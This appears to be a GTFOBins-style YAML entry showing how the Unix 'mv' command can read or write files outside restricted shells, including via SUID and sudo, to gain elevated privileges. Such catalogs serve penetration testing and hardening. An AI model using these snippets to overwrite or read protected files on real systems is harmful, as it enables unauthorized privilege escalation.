 ```yaml
---
description: This can be used to read or write files outside a restricted file systems or with elevated privileges.
functions:
  file-write:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        mv $TF $LFILE
  file-read:
    - code: |
        LFILE=file_to_read
        TF=$(mktemp)
        mv $LFILE $TF
        cat $TF
  suid-enabled:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        ./mv $TF $LFILE
  sudo-enabled:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        sudo mv $TF $LFILE
---
```

